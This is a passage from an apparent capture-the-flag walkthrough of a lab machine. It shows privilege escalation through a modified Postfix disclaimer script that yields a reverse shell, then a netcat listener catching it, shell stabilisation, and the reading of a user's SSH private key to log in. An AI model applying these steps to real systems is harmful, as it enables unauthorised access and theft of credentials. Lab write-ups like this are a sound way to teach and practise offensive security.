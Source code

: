 Now, all we have to do is to copy the modified disclaimer file to ```/etc/postfix/disclaimer``` and execute the script to obtain the reverse shell.
- Note: The reason why I decided to save the disclaimer file to somewhere else instead of modifying it directly on ```/etc/postfix/disclaimer``` was because I realized that my changes on ```/etc/postfix/disclaimer``` is overwritten every single time I execute the script. 

```
kyle@writer:~$ cp disclaimer /etc/postfix/disclaimer && python3 send.py
[*] Payload is generated : test message
[***]successfully sent email to kyle@writer.htb:
```

Now, we have obtained the reverse shell, but we realized that this is not a root shell. Instead, this is a shell for ```john```

```
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.11.101] 50386
bash: cannot set terminal process group (1243409): Inappropriate ioctl for device
bash: no job control in this shell
john@writer:/var/spool/postfix$ python3 -c 'import pty; pty.spawn("/bin/bash")'
<ix$ python3 -c 'import pty; pty.spawn("/bin/bash")'
john@writer:/var/spool/postfix$ export TERM=xterm
export TERM=xterm
john@writer:/var/spool/postfix$ stty cols 132 rows 34
stty cols 132 rows 34
john@writer:/var/spool/postfix$ id
id
uid=1001(john) gid=1001(john) groups=1001(john)
```

Before continuing furthur, let's first save the ```id_rsa``` file on our local machine so that we can SSH into ```john@10.10.11.101```

```
john@writer:/$ cd /home/john/.ssh
cd /home/john/.ssh
john@writer:/home/john/.ssh$ ls -la
ls -la
total 20
drwx------ 2 john john 4096 Jul  9 12:29 .
drwxr-xr-x 4 john john 4096 Aug  5 09:56 ..
-rw-r--r-- 1 john john  565 Jul  9 12:29 authorized_keys
-rw------- 1 john john 2602 Jul  9 12:29 id_rsa
-rw-r--r-- 1 john john  565 Jul  9 12:29 id_rsa.pub
john@writer:/home/john/.ssh$ cat id_rsa

┌──(kali㉿kali)-[~/Desktop]
└─$ nano id_rsa   
                                                                                                 
┌──(kali㉿kali)-[~/Desktop]
└─$ chmod 600 id_rsa 

──(kali㉿kali)-[~/Desktop]
└─$ ssh -i id_rsa john@10.10.11.101                                     
Last login: Wed Jul 28 09:19:58 2021 from 10.10.14.19
john@writer:~$ 
```
